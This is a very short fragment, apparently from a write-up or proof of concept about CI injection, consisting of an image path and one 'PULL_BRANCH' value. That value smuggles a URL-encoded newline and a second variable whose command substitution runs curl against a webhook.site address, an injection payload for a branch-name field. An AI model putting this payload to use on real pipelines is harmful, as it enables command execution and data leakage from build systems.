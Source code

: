 PULL_BRANCH: exploit-branch%0AFOO=(curl%20https--webhook.site-b48b879f-21c8-4953-bb3f-422f1aefe89d)
